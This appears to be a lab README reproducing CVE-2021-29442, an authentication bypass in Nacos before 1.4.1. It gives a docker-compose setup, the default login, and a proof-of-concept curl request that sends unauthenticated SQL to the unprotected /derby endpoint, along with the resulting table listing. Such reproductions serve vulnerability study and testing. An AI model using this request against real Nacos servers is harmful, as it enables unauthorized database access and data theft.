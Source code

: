 # Nacos Authentication Bypass Vulnerability (CVE-2021-29442)

## Introduction

In Nacos before version 1.4.1, the [ConfigOpsController](https://github.com/alibaba/nacos/blob/57459227863485d064ff25b3d5e24e714dcf218f/config/src/main/java/com/alibaba/nacos/config/server/controller/ConfigOpsController.java) lets the user perform management operations like querying the database or even wiping it out. While the [/data/remove](https://github.com/alibaba/nacos/blob/57459227863485d064ff25b3d5e24e714dcf218f/config/src/main/java/com/alibaba/nacos/config/server/controller/ConfigOpsController.java#L133-L135) endpoint is properly protected with the @Secured annotation, the [/derby](https://github.com/alibaba/nacos/blob/57459227863485d064ff25b3d5e24e714dcf218f/config/src/main/java/com/alibaba/nacos/config/server/controller/ConfigOpsController.java#L99-L100) endpoint is not protected and can be openly accessed by unauthenticated users.

## Setup

Startup Nacos with docker-compose, the remote debug was enabled on port 9555.

```bash
docker compose up -d
```

You could login with default password: `nacos/nacos`

## Poc

The following request will list the tables of the database:

```bash
curl -X GET 'http://localhost:8848/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st'
```

you will receive the following response:

```json
{"code":200,"message":null,"data":[{"TABLENAME":"APP_CONFIGDATA_RELATION_PUBS"},{"TABLENAME":"APP_CONFIGDATA_RELATION_SUBS"},{"TABLENAME":"APP_LIST"},{"TABLENAME":"CONFIG_INFO"},{"TABLENAME":"CONFIG_INFO_AGGR"},{"TABLENAME":"CONFIG_INFO_BETA"},{"TABLENAME":"CONFIG_INFO_TAG"},{"TABLENAME":"CONFIG_TAGS_RELATION"},{"TABLENAME":"GROUP_CAPACITY"},{"TABLENAME":"HIS_CONFIG_INFO"},{"TABLENAME":"PERMISSIONS"},{"TABLENAME":"ROLES"},{"TABLENAME":"SYSALIASES"},{"TABLENAME":"SYSCHECKS"},{"TABLENAME":"SYSCOLPERMS"},{"TABLENAME":"SYSCOLUMNS"},{"TABLENAME":"SYSCONGLOMERATES"},{"TABLENAME":"SYSCONSTRAINTS"},{"TABLENAME":"SYSDEPENDS"},{"TABLENAME":"SYSDUMMY1"},{"TABLENAME":"SYSFILES"},{"TABLENAME":"SYSFOREIGNKEYS"},{"TABLENAME":"SYSKEYS"},{"TABLENAME":"SYSPERMS"},{"TABLENAME":"SYSROLES"},{"TABLENAME":"SYSROUTINEPERMS"},{"TABLENAME":"SYSSCHEMAS"},{"TABLENAME":"SYSSEQUENCES"},{"TABLENAME":"SYSSTATEMENTS"},{"TABLENAME":"SYSSTATISTICS"},{"TABLENAME":"SYSTABLEPERMS"},{"TABLENAME":"SYSTABLES"},{"TABLENAME":"SYSTRIGGERS"},{"TABLENAME":"SYSUSERS"},{"TABLENAME":"SYSVIEWS"},{"TABLENAME":"TENANT_CAPACITY"},{"TABLENAME":"TENANT_INFO"},{"TABLENAME":"USERS"}]}
```

## Reference

1. https://github.com/advisories/GHSA-xv5h-v7jh-p2qh
2. https://github.com/alibaba/nacos/issues/4463
3. https://github.com/alibaba/nacos/pull/4517